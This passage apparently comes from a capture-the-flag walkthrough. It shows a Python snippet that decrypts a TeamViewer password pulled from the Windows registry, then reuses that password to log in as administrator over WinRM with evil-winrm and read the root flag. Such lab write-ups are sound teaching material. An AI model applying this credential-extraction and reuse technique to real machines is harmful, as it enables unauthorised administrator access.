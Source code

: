 ```python
hex_str_cipher = "FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B"			# output from the registry

ciphertext = binascii.unhexlify(hex_str_cipher)
raw_un = AESCipher(key).decrypt(iv, ciphertext)
print(hexdump.hexdump(raw_un))
password = raw_un.decode('utf-16')
print(password)
```

![!R3m0t3!](/assets/img/walkthroughs/remote_teamviewpassword.png)

We have the password for TeamViewer. Thinking that maybe they use the same password for all the remote management tools, we attempt to use it to login as administrator to WinRm that is running on port 5985. Using the tool *evil-winrm* 

![evilwin](/assets/img/walkthroughs/remote_evilwinrm.png)

We are met with success and have gained access to the root.txt